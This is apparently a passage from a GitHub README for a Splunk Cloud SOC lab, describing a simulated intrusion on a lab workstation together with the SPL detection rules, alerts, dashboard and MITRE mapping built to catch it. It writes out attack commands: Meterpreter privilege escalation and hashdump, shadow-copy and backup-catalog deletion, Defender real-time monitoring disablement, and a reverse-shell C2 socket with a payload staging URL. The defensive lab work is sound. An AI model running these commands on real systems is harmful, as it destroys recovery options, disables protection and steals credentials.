
*Figure 11: Splunk query capturing PowerShell execution flags (`-ExecutionPolicy Bypass`, `-DisableRealtimeMonitoring`).*


*Figure 12: Specific detection of `Set-MpPreference -DisableRealtimeMonitoring $true` logged by Sysmon Event ID 1.*

---

### Phase 7: Privilege Escalation & SAM Credential Dumping
From Meterpreter session, elevated context to `NT AUTHORITY\SYSTEM` and dumped local SAM database hashes:

```text
getsystem
getuid
hashdump
```


*Figure 13: In-memory privilege escalation to SYSTEM via Named Pipe Impersonation and extraction of NTLM hashes for Administrator, DefaultAccount, FIKIRA, and Guest.*

Correlated security privilege assignment in Splunk:

```spl
index=main (EventCode=4624 OR EventCode=4672)
| table _time, host, EventCode, Account_Name, Security_ID, Logon_Type, PrivilegeList
| sort -_time
| head 30
```


*Figure 14: Windows Security Event 4672 capturing special privilege assignment to SYSTEM (`S-1-5-18`).*

---

### Phase 8: Ransomware Recovery Inhibition Staging
Simulated the universal ransomware pre-encryption sequence by attempting to purge Volume Shadow Copies:

```cmd
vssadmin delete shadows /all /quiet
wbadmin delete catalog -quiet
bcdedit /set {default} recoveryenabled No
```


*Figure 15: Default Splunk search displaying raw `vssadmin delete shadows /all /quiet` executions without risk categorization.*

---

## 🔍 SIEM Detection Gap Analysis

During initial log analysis, an enterprise monitoring gap was identified:
- **Default SIEM Limitation:** Splunk ingested raw process creation events, but standard queries (`index=main EventCode=1 CommandLine="*vssadmin*"`) presented the events as benign administrative activity without severity escalation or MITRE mapping.
- **The Blind Spot:** In an enterprise SOC processing hundreds of gigabytes per day, unclassified administrative utilities executed via interactive shells are lost in log noise.
- **Engineered Solution:** Formulated resilient SPL rules mapping directly to MITRE ATT&CK T1490, enforcing extraction of process paths, parent ancestry, and scheduling automated high-severity alerts.

---

## 🛠️ Detection Engineering & SPL Query Catalog

All engineered detection rules are maintained as modular `.spl` files in the [`detections/`](./detections/) directory:

| Detection ID | Title | MITRE | Telemetry Source | Severity | Production File |
| :--- | :--- | :--- | :--- | :--- | :--- |
| **DET-001** | Network Service Scanning (Port Sweep) | `T1046` | Sysmon EID 3 | **Medium** | [`DET-001-network-scan.spl`](detections/DET-001-network-scan.spl) |
| **DET-002** | Binary Execution from Public/Temp Path | `T1204.002` | Sysmon EID 1 | **High** | [`DET-002-payload-execution.spl`](detections/DET-002-payload-execution.spl) |
| **DET-003** | Suspicious PowerShell Execution Flags | `T1059.001` | Sysmon EID 1 | **High** | [`DET-003-powershell-abuse.spl`](detections/DET-003-powershell-abuse.spl) |
| **DET-004** | Suspicious LSASS Process Handle Access | `T1003.001` | Sysmon EID 10 | **High** | [`DET-004-lsass-access.spl`](detections/DET-004-lsass-access.spl) |
| **DET-005** | Host Defense Tampering via PowerShell | `T1562.001` | Sysmon EID 1 | **High** | [`DET-005-defense-evasion.spl`](detections/DET-005-defense-evasion.spl) |
| **DET-006** | Ransomware Shadow Deletion & Staging | `T1490` | Sysmon EID 1 | **CRITICAL** | [`DET-006-ransomware-staging.spl`](detections/DET-006-ransomware-staging.spl) |

---

## 🚨 Alert Engineering & Trigger Validation

Five persistent alerts were scheduled in the Splunk Cloud Alert Manager under `sc_admin`:


*Figure 16: Splunk Cloud Searches, Reports, and Alerts console displaying 5 active scheduled rules.*

Following attack execution, alerts automatically fired in the Splunk Activity Console:


*Figure 17: Splunk Cloud Activity → Triggered Alerts confirming execution of `CRITICAL — Ransomware Staging — T1490` and `Payload from Suspicious Location — T1204.002`.*

---

## 📊 SOC Operations Dashboard (Classic XML)

A centralized Security Operations Center dashboard was engineered in Splunk Classic XML ([`soc-operations-dashboard.xml`](dashboard/soc-operations-dashboard.xml)) providing:
- **KPI Metrics:** Total 24h Security Telemetry, Critical Detections Triggered, Active Monitored Endpoints.
- **Timechart:** Security Event Ingestion Velocity (15-minute intervals).
- **Categorization:** MITRE ATT&CK Tactics Breakdown (Pie Chart).
- **Forensic Table:** Real-Time Forensic Event Stream (last 50 events across EID 1, 3, 10, 4624, 4672).

---

## 📌 MITRE ATT&CK Mapping Matrix

| MITRE ID | Tactic | Technique | Execution Details | Detection Rule |
| :--- | :--- | :--- | :--- | :--- |
| **T1046** | Reconnaissance | Network Service Scanning | Nmap full TCP port sweep (`-sV -O -p-`) | `DET-001` |
| **T1204.002** | Execution | Malicious File | Running `C:\Users\Public\payload.exe` | `DET-002` |
| **T1059.001** | Execution | PowerShell Abuse | `-ExecutionPolicy Bypass` cmdlets | `DET-003` |
| **T1571** | Command & Control | Non-Standard Port | Reverse TCP connection to port `4444` | Sysmon EID 3 |
| **T1134** | Privilege Escalation | Access Token Manipulation | Meterpreter `getsystem` named pipe impersonation | Security EID 4672 |
| **T1003.001** | Credential Access | LSASS Memory / SAM Dumping | In-memory `hashdump` extracting NTLM hashes | `DET-004` |
| **T1562.001** | Defense Evasion | Impair Defenses | PowerShell `Set-MpPreference -DisableRealtimeMonitoring` | `DET-005` |
| **T1490** | Impact | Inhibit System Recovery | Deleting shadow copies via `vssadmin delete shadows` | `DET-006` |

---

## 🛡️ Indicators of Compromise (IOCs)

| Indicator Type | Observed Artifact / Value | Context |
| :--- | :--- | :--- |
| **Attacker IP** | `192.168.238.128` | Threat actor host `parrot-htb` |
| **Victim IP** | `192.168.238.129` | Enterprise workstation `DESKTOP-F95RRHE` |
| **Victim MAC** | `00:0C:29:B8:EF:28` | VMware vNIC address |
| **C2 Socket** | `192.168.238.128:4444` | Reverse TCP Meterpreter handler |
| **Ingress Tool Transfer** | `http://192.168.238.128:8080/payload.exe` | Staging web server |
| **Malicious File** | `C:\Users\Public\payload.exe` (7,680 bytes) | Unsigned reverse TCP executable |
| **Ransom Artifacts** | `README_DECRYPT.txt`, `FINANCIAL_2026.xlsx.enc` | Simulated ransom note and encrypted artifact |
| **Process Execution Strings** | `vssadmin delete shadows /all /quiet`<br/>`powershell Set-MpPreference -DisableRealtimeMonitoring $true` | Recovery inhibition and defense tampering |

---

## 📄 Formal Incident Response Documentation

- **Executive PDF Report:** 📄 [INCIDENT_REPORT.pdf](docs/INCIDENT_REPORT.pdf) *(Publication-Grade Formal Document)*
- **Technical Markdown Report:** 📝 [INCIDENT_REPORT.md](docs/INCIDENT_REPORT.md)

---

## 📂 Repository Structure

```text
splunk-cloud-soc-lab/
├── README.md                           # Master Project Documentation & Blueprint
├── detections/                         # Engineered SPL Detection Rules
│   ├── DET-001-network-scan.spl
│   ├── DET-002-payload-execution.spl
│   ├── DET-003-powershell-abuse.spl
│   ├── DET-004-lsass-access.spl
│   ├── DET-005-defense-evasion.spl
│   └── DET-006-ransomware-staging.spl
├── alerts/                             # Alert Rules & Scheduling Specification
│   └── alert-rules-configuration.md
├── investigations/                     # Formal SOC Analyst Investigation Triage Writeups
│   ├── INV-001-network-scan.md
│   ├── INV-002-payload-execution.md
│   ├── INV-003-ransomware-staging.md
│   ├── INV-004-privesc-credential-access.md
│   └── INV-005-powershell-defense-evasion.md
├── dashboard/                          # Production SOC Dashboard XML
│   └── soc-operations-dashboard.xml
├── docs/                               # Formal Incident Response Reports
│   ├── INCIDENT_REPORT.md
│   └── INCIDENT_REPORT.pdf
└── assets/
    └── screenshots/                    # Verified Lab Screenshots (01 to 17)
        ├── 01-sysmon-running-victim-vm.png
        ├── 02-uf-connected-local-log.png
        ├── ...
        └── 17-alerts-triggered.png
```

---

## 👤 Author

**Idris Lawan Mustapha**  
*Cyber Security Analyst & Detection Engineer*  
- **GitHub:** [github.com/fikira001](https://github.com/fikira001)  
- **Portfolio Repository:** [cybersecurity-portfolio](https://github.com/fikira001/cybersecurity-portfolio)  
- **Incident Report Ref:** IR-SPLUNK-2026-001
